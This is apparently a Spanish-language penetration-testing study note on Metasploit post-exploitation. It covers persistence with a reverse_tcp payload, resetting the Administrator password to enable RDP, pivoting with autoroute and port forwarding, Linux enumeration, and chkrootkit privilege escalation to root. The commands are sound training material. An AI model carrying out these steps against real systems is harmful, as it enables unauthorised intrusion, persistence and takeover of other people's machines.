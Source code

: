 Una vez tenemos la sesion de meterpreter la ponemos en background y usamos el siguiente modulo
`use exploit/windows/local/persistence_service`
`set payload windows/meterpreter/reverse_tcp`


### HABILITAR RDP

Una vez establecida una sesion de meterpreter, si tenemos cuenta como Administrator deberemos de cambiar la contraseña con `net user administrator password1234`, ponemos la sesion en background con `ctrl + z` y usamos el modulo de post explotacion `post/windows/manage/enable_rdp`.
En una pestaña nueva usamos `xfreerdp /u:administrator /p:password1234 /v:<IP_Victima>`


## PIVOTING
### WINDOWS

El entorno se basa en la maquina atacante con `<IP_Atcante> 192.168.1.2` una maquina que vemos en la red `192.168.1.3 <IP_Victima1> 10.10.10.2` y una maquina que no vemos en la red pero si se conecta con la Victima1 `10.10.10.3 <IP_Victima2>`

Una vez tenemos la seision de meterpreter hacemos la enumeracion del systema operativo.
Deberemos empezar haciendo un `ipconfig` para ver las interfaces de red, vemos que tiene una ip dentro de un rango que no es el de nuestra maquina atacante.

Tendremos que usar el comando `run autoroute -s 10.10.10.0/24<Subnet_Encontrada>` ponemos la sesion en background y si queremos para ubicarnos mejor podemos renombrar la sesion usando el comando `sessions -n victim-1 -i <num_sesion>`.

Usaremos le modulo `auxiliary/scanner/portscan/tcp` configuraremos el `RHOST` con la IP de la maquina encontrada en la red interna de la victima1 y `set PORTS 1-100`.

Con los puetos que hayamos encntrado abrimos de nuevo la seison que estaba en background y hacemos un renvio de puertos de la maquina victima2 a la maquina victima1 con el comando `portfw add -l 1122<puerto_local> -p <puerto_objetivo> -r <IP_Victima2>`

Ahora ya podremos hacer un escaneo con [[NMAP]] a nuestro puerto de la maquina local `1122` para ver que servicio esta corriendo y poder explotarlo con [[METASPLOIT]]



## POST EXPLOTATION LINUX

`sysinfo` ver información del sistema
`getuid` ver usuario actual en el sistema
`shell` ejecutar shell `/bin/bash -i` crear bash
`ps aux` ver procesos
`env` variables de entorno
Podemos usar el modulo de `post/linux/gather/enum_configs` veremos las configuraciones del sistema
`sessions -u <num>` upgradear la sesion a meterpreter

### Escalada Privilegios Linux

##### CHKRootKit

Si al ver los procesos que stan ejecutando `ps aux` vemos un proceso llamado `/bin/check-down` le hacemos un cat `cat /bin/check-down` y vemos que hay un chkrootkit, usaremos el comando `chkrootkit -v` para ver la version
Ponemos la sesion en background y usamos el modulo de explotacion `exploit/unix/local/chkrootkit`, tenemos que indicar la ruta con `set CHKROOTKIT /bin/chkrootkit`, poner la sesion en la que esta corriendo el meterpreter y configurar el `LHOST`.  Obtendremos una sesion como root.
